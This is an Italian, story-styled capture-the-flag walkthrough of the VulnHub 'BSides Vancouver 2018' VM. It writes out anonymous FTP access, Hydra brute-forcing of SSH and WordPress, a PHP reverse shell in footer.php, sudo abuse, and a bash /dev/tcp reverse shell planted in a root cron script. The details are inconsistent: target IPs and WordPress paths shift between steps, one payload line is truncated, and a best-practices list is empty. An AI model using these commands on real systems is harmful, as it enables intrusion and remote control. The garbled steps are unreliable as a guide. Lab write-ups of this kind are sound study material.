










Un report dettagliato di penetration testing per CryptoShield
Autore: Salvatore Saitta (aka ShadowByte)
Data: 20 Giugno 2025
Sono ShadowByte, un ethical hacker che opera nelle profondità del dark web. Un messaggio criptato mi ha contattato per conto di CryptoShield, una startup unicorno guidata da un enigmatico proprietario. La missione? Testare la loro VM vulnerabile "BSides Vancouver 2018" (VulnHub), ottenere privilegi di root e catturare la flag in /root. Sul dark web, il loro leader è una figura leggendaria, un vecchio amico che non sa che io, ShadowByte, lo conosco bene.
Con Linux Parrot Security e il suo tool esclusivo Anonsurf, sono pronto a dimostrare le mie abilità. Questo report, dettagliato e accessibile, documenta ogni passo, con comandi specifici di Parrot e due percorsi di attacco (FTP/SSH e WordPress).
È come danzare in un gioco di ombre, sapendo che il tuo partner è un maestro mascherato.
Ho scaricato la VM da VulnHub e l’ho importata in VirtualBox, impostando la rete in modalità host-only (subnet 192.168.56.0/24). La mia macchina Parrot ha IP 192.168.56.1.
Per muovermi in incognito, attivo Anonsurf, unico di Parrot, che instrada il traffico tramite Tor:
sudo anonsurf start
Risultato: Traffico mascherato. Verifico:
sudo anonsurf status
Ho installato Nessus su Parrot, scaricando il pacchetto Debian da Tenable:
sudo dpkg -i Nessus-*.deb
sudo systemctl start nessusd
Accesso su https://localhost:8834. Verifico la connettività:
ping 192.168.56.52
Risultato: VM raggiungibile.
È come calarsi un cappuccio nero prima di un’operazione notturna.
 Con Anonsurf attivo, uso Nmap per scansionare la rete:
sudo nmap -sn 192.168.56.0/24 --dns-servers 8.8.8.8
La VM è a 192.168.56.52.
È come captare un segnale nella nebbia, sapendo che il tuo obiettivo è vicino.
Analizzo la VM con Nmap e Nessus su Parrot.
Eseguo una scansione approfondita:
sudo nmap -sV -A -p- 192.168.56.52 --dns-servers 8.8.8.8
Spiegazione:
-sV: Versioni dei servizi.-A: Scansioni aggressive con script NSE.-p-: Tutte le porte TCP.--dns-servers: Compatibilità con Tor.Servizi: FTP, SSH, HTTP. Sistema: Ubuntu 12.04.
Configuro Nessus su https://localhost:8834, creando una scansione “Basic Network Scan” per 192.168.56.101:
sudo systemctl status nessusd
Risultato: 52 vulnerabilità:
| Vulnerabilità | Gravità | Descrizione |
|---|---|---|
| Sistema obsoleto | Critica | Ubuntu 12.04 senza aggiornamenti. |
| FTP anonimo | Alta | Accesso senza autenticazione. |
| SSH cifrature deboli | Media | OpenSSH 5.9p1 vulnerabile. |
| Apache obsoleto | Media | Apache 2.2.22 con bug noti. |
| WordPress vulnerabile | Alta | Versione obsoleta su /blog. |
È come scrutare un antico manoscritto, cercando i punti deboli nascosti.
Esploro due percorsi: SSH e FTP e scopro WordPress abbandonato
Il login FTP anonimo è una falla. Mi connetto:
ftp 192.168.56.52
Risultato:
Connected to 192.168.56.52.
220 (vsFTPd 2.3.5)
Name (192.168.56.101:shadowbyte): anonymous
331 Please specify the password.
Password: [vuoto]
230 Login successful.
Trovo users.txt.bk in public:
cd public
ls
get users.txt.bk
quit
Contenuto: anne,john,mary,jane,david,lisa. Un indizio lasciato da qualcuno che conosce il gioco.
Uso Hydra con la wordlist di Parrot:
gunzip /usr/share/wordlists/rockyou.txt.gz
hydra -L users.txt.bk -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.52
Risultato: anne:princess. Mi connetto:
ssh anne@192.168.56.101
Risultato: Accesso come anne.
È come trovare una chiave nascosta sotto un sasso familiare.
 Su 192.168.56.52/wordpress_backup/ c’è un sito WordPress wp-login.php:
hydra -L users.txt.bk -P /usr/share/wordlists/rockyou.txt http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username"
Risultato: john:enigma. Un nome che sa di dark web.
Accedo al pannello Admin e modifico footer.php:
& /dev/tcp/192.168.56.1/8888 0>&1"); ?>
Imposto un listener:
netcat -lvp 8888
Risultato: Shell come www-data.
È come scivolare attraverso una finestra lasciata socchiusa.
Come anne, verifico i privilegi:
sudo -l
Risultato:
User anne may run: (ALL) NOPASSWD: ALL
Escalo:
sudo su
Verifico:
whoami
Risultato: root.
Per WordPress, come www-data, trovo uno script cron (/usr/local/bin/cleanup):
echo "bash -i >& /dev/tcp/192.168.56.1/8888 0>&1" > /usr/local/bin/cleanup
chmod +x /usr/local/bin/cleanup
Ottengo una shell root via Netcat.
È come scoprire un passaggio segreto verso la torre più alta.
Come root:
cd /root
ls -la
cat flag.txt
Risultato:
Congratulations! If you can read this, you have root permissions!
Flag catturata.
È come aprire un baule e trovare un tesoro ben custodito.
Vulnerabilità sfruttate:
| Vulnerabilità | Impatto | Mitigazione |
|---|---|---|
| FTP anonimo | Accesso non autorizzato | Disabilitare login anonimo |
| Password deboli | Accesso tramite brute-force | Password complesse, 2FA |
| Sudo mal configurato | Escalation di privilegi | Limitare permessi sudo |
| WordPress obsoleto | Accesso admin e shell | Aggiornare WordPress |
Opero con autorizzazione in un ambiente controllato. Best practices:
È come fortificare una città contro invasori futuri.
Questa missione ha dimostrato che anche un sistema ben progettato può cadere. Ho affinato le mie abilità con Parrot e Anonsurf, consegnando un report che evidenzia le vulnerabilità di CryptoShield. Dopo aver inviato il report, ricevo un messaggio criptato dal loro leader:
“ShadowByte, il tuo stile mi ricorda un’ombra del passato… ma i veri maestri restano nascosti, no?”
Sorrido. Forse il capo di CryptoShield, il Dott. Castelli, teme che io sappia che è uno degli ethical hacker più grandi di tutti i tempi. Non lo confermerò… per ora.
Firmato: ShadowByte, il tuo hacker etico dal dark web.